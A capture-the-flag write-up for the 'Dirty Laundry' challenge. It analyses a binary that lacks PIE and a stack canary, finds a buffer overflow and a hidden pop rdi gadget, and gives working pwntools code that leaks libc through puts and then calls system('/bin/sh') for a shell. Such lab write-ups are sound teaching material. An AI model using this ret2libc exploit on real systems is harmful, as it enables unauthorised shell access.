





# Dirty Laundry

### Inspecting the program’s security:-



Key notes:-

- No PIE
- No Stack Canary
- Debug symbols

This means addresses within the program are constant, at run time, and the absence of a stack canary means buffer overflows are possible. The presence of symbols means the binary hasn’t been stripped, which makes analyzing it easier.

### Analyzing in Radare2

Looking at vuln():



- As suspected, a buffer overflow of 256-64=192 bytes is present

Check status seems to be a rather harmless function intended to dissuade players:-



However on further inspection, the hex ID seems to be rather specific, it might be code hidden in plain sight.

Searching the binary for ROPgadgets, it’s clear that the hexa decimal was code for a ROP gadget:



While we do not need pop r14, pop rdi, and ret is very useful to us, as the arguments for a function is stored in the rdi register, and ret jumps to the function pointed to by the top of the stack. We can make use of this by simply crafting our payload in a way such that it accounts for the extra pop instruction. 

To make use of this to spawn a shell, we must leak the address of libc first, so we can calulate offsets from it to system().

We can use overwrite the return address of the vuln() function with the puts function, with the argument as the GOT address of the PLT function, in order for it to output the address of the puts() function.

```python

payload = b"A" * offset
payload += p64(gadget)
payload += p64(elf.got['puts']) #argument to puts()
payload += p64(0xdeadbeef) #junk data for r14
payload += p64(elf.plt['puts'])
payload += p64(ret) #padding for 16 byte alignment
payload += p64(elf.symbols['vuln']) #return to vuln() to continue exploit

p.sendlineafter(b"laundry: ", payload)
p.recvuntil(b"complete")

leak = p.recvline().strip()
leak = u64(leak.ljust(8, b"\x00"))
libc.address = leak - libc.symbols['puts']
```

Using this address we can call system() with the argument /bin/sh

```python
payload = b"A" * offset
payload += p64(gadget)
payload += p64(next(libc.search(b'/bin/sh')))
payload += p64(0xdeadbeef)
payload += p64(libc.symbols['system'])

p.sendlineafter(b"laundry: ", payload)
p.interactive()
```

Which in turn spawns a shell:-


